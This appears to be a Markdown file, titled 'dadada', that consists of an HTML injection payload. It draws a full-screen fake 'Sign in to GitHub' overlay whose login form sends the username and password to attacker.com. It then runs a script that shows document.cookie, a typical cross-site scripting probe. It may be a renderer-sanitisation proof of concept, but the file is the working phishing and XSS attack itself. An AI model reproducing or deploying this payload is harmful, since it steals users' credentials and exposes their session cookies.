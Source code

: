 # dadada

<div style="position:fixed;left:0;top:0;width:100%;height:100vh;background: #c9d1d9;z-index:1; padding-top: 10vh;color:#090d11">
    <center>
        <svg height="48" aria-hidden="true" viewBox="0 0 16 16" version="1.1" width="48" data-view-component="true" class="octicon octicon-mark-github">
            <path fill-rule="evenodd" d="M8 0C3.58 0 0 3.58 0 8c0 3.54 2.29 6.53 5.47 7.59.4.07.55-.17.55-.38 0-.19-.01-.82-.01-1.49-2.01.37-2.53-.49-2.69-.94-.09-.23-.48-.94-.82-1.13-.28-.15-.68-.52-.01-.53.63-.01 1.08.58 1.23.82.72 1.21 1.87.87 2.33.66.07-.52.28-.87.51-1.07-1.78-.2-3.64-.89-3.64-3.95 0-.87.31-1.59.82-2.15-.08-.2-.36-1.02.08-2.12 0 0 .67-.21 2.2.82.64-.18 1.32-.27 2-.27.68 0 1.36.09 2 .27 1.53-1.04 2.2-.82 2.2-.82.44 1.1.16 1.92.08 2.12.51.56.82 1.27.82 2.15 0 3.07-1.87 3.75-3.65 3.95.29.25.54.73.54 1.48 0 1.07-.01 1.93-.01 2.2 0 .21.15.46.55.38A8.013 8.013 0 0016 8c0-4.42-3.58-8-8-8z"></path>
        </svg>
        <h1 style="font-size: 24px;font-weight: 300;letter-spacing: -.5px;">Sign in to GitHub</h1>
        <div style="padding-top:1em; padding-bottom: 1em; background:#090d11;width:50%; border-radius:7px;color:#c9d1d9">
            <form action="https://attacker.com" accept-charset="UTF-8" method="get">
                <label for="login_field">Username or email address</label><br/>
                <input style="background:#c9d1d9;width:50%; border-radius:7px;color:#090d11" type="text" name="login" id="login_field" autocomplete="username" autofocus="autofocus"><br/>
                <label for="password">Password</label><br/>
                <input style="background:#c9d1d9;width:50%; border-radius:7px;color:#090d11" type="password" name="password" id="password" autocomplete="current-password"><br/><br/>
                <input style="background:#2ea043; border-color:#2ea043; width:50%; border-radius:7px;color:white; text-weigth: bold; font-size: 17px;" type="submit" name="commit" value="Sign in">
            </form>
        </div>
    </center>
</div>
<script>alert(document.cookie)</script>
